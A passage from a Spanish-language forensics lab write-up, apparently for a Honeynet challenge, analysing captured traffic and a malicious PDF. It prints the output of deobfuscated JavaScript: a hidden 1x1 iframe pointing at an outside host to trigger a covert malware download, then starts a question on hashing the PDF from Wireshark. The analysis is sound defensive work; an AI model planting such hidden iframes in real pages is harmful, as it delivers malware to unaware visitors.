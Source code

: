 ![](../assets/images/cyber-pdf/2.png)

Y cuando ejecutamos: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ node script.js
document.write('<iframe scrolling="no" width="1" height="1" border="0" frameborder="0" src="http://blog.honeynet.org.my/forensic_challenge/getpdf.php"></iframe>')
```

Confirmamos que efectivamente se visita la dirección de la que sospechamos. Ademas de mostrar un iframe con un alto y ancho de 1 pixel, para no ser visto por el usuario y permitir la descarga del malware sin ser detectados. 
Esto sugiere que la descarga de este fichero .php es un trigger para comenzar con la descarga del malware, que es un pdf, ya que todo este tráfico está en el mismo stream, el 0, que podemos ver en nuestro wireshark. 

-----

<h3 style="color: #0d6efd;">Q4. What is the MD5 hash of the PDF file contained in the packet? </h3>

Bien, para esto descargamos el contenido desde wireshark, ya sabemos `File > Export Objects > HTTP`, guardamos el `.pdf` y obtenemos el hash: 
